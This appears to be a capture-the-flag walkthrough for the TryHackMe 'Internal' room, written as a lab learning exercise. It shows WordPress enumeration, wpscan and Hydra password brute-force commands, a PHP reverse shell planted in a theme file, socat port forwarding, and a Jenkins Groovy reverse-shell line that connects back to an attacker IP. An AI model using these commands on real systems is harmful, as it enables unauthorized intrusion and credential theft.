#Internal

This is a write for the awesome penetration challenge ["Internal"](https://tryhackme.com/room/internal) created by 
[Joe Helle](https://www.linkedin.com/in/joe-helle-63b18893/) "TheMayor"

Have fun!! 



First we add `internal.thm` to the /etc/hosts file.

For our initial scan we run nmap.



Port 22 (SSH) and port 80 (HTTP) are open and we confirm it's a Linux machine.

Next we start directory enumeration with gobuster

`gobuster dir -u http://internal.thm -w /usr/share/wordlists/dirb/common.txt`



`blog` seems interesting! Let's check it in our browser.



Just another (pretty looking) WordPress blog (^_^)

Looking around doesn't gives us any clues about any credentials, so let's try enumerating with `wpscan`

`wpscan --url http://internal.thm/blog -e u`



Going through the scan, we can see that we were successful finding one user(name)!!



Cool! We can try to bruteforce the password using wpscan as well.

`wpscan --url http://internal.thm/blog -U admin -P /usr/share/wordlists/rockyou.txt`

Let the tool do its things and in the meantime you can go grab some coffee, because 
it's going to take some time o^_^o 



AND ... we get a result!!!



We use the credentials found and login `internal.thm/blog/wp-admin/`

After logging in we see this ...



Just click on "email is correct" and BOOM! We're logged in as admin!!



I see these WordPress dashboards, the first thing I want to do is looking for a place I can upload a php reverse shell,
and that's exactly what we'll do!!

Clicking on "Appearance", then "Theme Editor", then "404.php" and we have the perfect spot to put our shell!!

Substitute the php there for a reverse shell. There are many you can find online! I included one in this writeup's repository.
Make sure to change the IP for yours!!

Click on "update file", start a nc listener in your machine, then go to

`http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php`



And we got a shell!! 

But it's www-data and not much we can do besides trying to find a way to escalate our privileges to some other kind of user.

It took me a while looking around until I finally came across something VERY useful right here ...



We fully read this file and we have credentials to switch user.

And we get user.txt



OK! Next we need to do some privesc to root this machine...
Unfortunately aubreanna is not a sudoer :((

Back to looking around for stuff we can use to escalate our privileges!!

Actually ... haha.. I was hoping to escalate by sudo, but then it wouldn't be a hard machine now, would it?
So I went hunting everywhere, going to crazy places ... only to find myself right back to /home/aubreanna, going through
this file which was RIGHT above user.txt...lol



Jenkins service ...is it running over there only? Let's check!!



Yup, running in localhost 127.0.0.1:8080

OK, so to see if we can use this to try and escalate privilege, we need it to be available to us, localhost does no good!
I had to go research this one, to be honest... TheMayor always making AMAZING challenges!!

So we can make this available to us through `socat` which means we have to put it in aubreanna's machine.
We can easily do that by using a python http.server + wget



`./socat TCP-LISTEN:8888,fork TCP:127.0.0.1:80 &`

OK... but without credentials we can't authenticate!!

We can try to brute force that with Hydra! (POST request from Burp)

`hydra -l admin -P /usr/share/wordlists/rockyou.txt internal.thm -s 8888 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"`



I went and took another coffee break and let Hydra do its thing!
(Make sure the TryHackMe machine doesn't expire!!)

After getting our hands on the Jenkins credentials, we can just go to `http://internal.thm:8888` and authenticate!!

We are going to put a reverse shell there as well, so again start a nc listener in our machine



Go to "Jenkins", then "nodes", then "master", then "Script Console", then execute the following...

`r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.4.31.108/7878;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()`

Don't forget to change IP and port to match your nc listener.

I forgot to take a screenshot of this and my IP is looong expired, but all you need to do is do some digging, nothing too complicated, and you will find the root password by going to `/opt` , which is the last piece missing for owning the machine.

Go back to aubreanna's machine and simply switch users to root and use the password you found above!!



and THAT'S IT!!!



I hope you loved this penetration test challenge as much as I did and learned new things.

Make sure to follow Joe "TheMayor" Helle on 
[Twitter](https://twitter.com/joehelle)and [Twitch](https://www.twitch.tv/themayor11)
for AMAZING content!

Thank you so much for reading my writeup and Happy Hacking!!

                                                    `CryptoTzipi AKA CyberLola`

                                     

